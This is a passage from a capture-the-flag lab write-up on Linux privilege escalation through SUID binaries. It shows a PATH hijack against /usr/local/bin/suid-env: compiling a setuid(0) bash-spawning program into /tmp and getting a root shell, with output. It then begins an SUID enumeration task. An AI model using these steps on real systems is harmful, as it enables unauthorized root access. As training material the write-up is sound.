 ~~~
|$0H
service apache2 start
~~~

**Exploitation**

Linux VM

1. In command prompt type: `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c`
2. In command prompt type: `gcc /tmp/service.c -o /tmp/service`
3. In command prompt type: `export PATH=/tmp:$PATH`
4. In command prompt type: `/usr/local/bin/suid-env`
5. In command prompt type: `id`

~~~
TCM@debian:~$ echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
TCM@debian:~$ gcc /tmp/service.c -o /tmp/service
TCM@debian:~$ export PATH=/tmp:$PATH
TCM@debian:~$ /usr/local/bin/suid-env
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
~~~

## 13.1 - What is the last line of the "strings /usr/local/bin/suid-env" output?

Answer: `service apache2 start`


# [Task 14] Privilege Escalation - SUID (Environment Variables #2)

**Detection**

Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.

~~~
TCM@debian:~$ find / -type f -perm -04000 -ls 2>/dev/null
809081   40 -rwsr-xr-x   1 root     root        37552 Feb 15  2011 /usr/bin/chsh
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
810173   36 -rwsr-xr-x   1 root     root        32808 Feb 15  2011 /usr/bin/newgrp
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudoedit
809080   44 -rwsr-xr-x   1 root     root        43280 Jun 18 13:02 /usr/bin/passwd
809078   64 -rwsr-xr-x   1 root     root        60208 Feb 15  2011 /usr/bin/gpasswd
809077   40 -rwsr-xr-x   1 root     root        39856 Feb 15  2011 /usr/bin/chfn
816078   12 -rwsr-sr-x   1 root     staff        9861 May 14  2017 /usr/local/bin/suid-so
816762    8 -rwsr-sr-x   1 root     staff        6883 May 14  2017 /usr/local/bin/suid-env
816764    8 -rwsr-sr-x   1 root     staff        6899 May 14  2017 /usr/local/bin/suid-env2
815723  948 -rwsr-xr-x   1 root     root       963691 May 13  2017 /usr/sbin/exim-4.84-3
832517    8 -rwsr-xr-x   1 root     root         6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
832743  212 -rwsr-xr-x   1 root     root       212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
812623   12 -rwsr-xr-x   1 root     root        10592 Feb 15  2016 /usr/lib/pt_chown
473324   36 -rwsr-xr-x   1 root     root        36640 Oct 14  2010 /bin/ping6
473323   36 -rwsr-xr-x   1 root     root        34248 Oct 14  2010 /bin/ping
473292   84 -rwsr-xr-x   1 root     root        78616 Jan 25  2011 /bin/mount
473312   36 -rwsr-xr-x   1 root     root        34024 Feb 15  2011 /bin/su
473290   60 -rwsr-xr-x   1 root     root        53648 Jan 25  2011 /bin/umount
1158725  912 -rwsrwxrwx   1 root     root       926536 Aug 25 03:05 /tmp/nginxrootsh
1158723  912 -rwsr-sr-x   1 root     staff      926536 Aug 25 03:00 /tmp/bash
~~~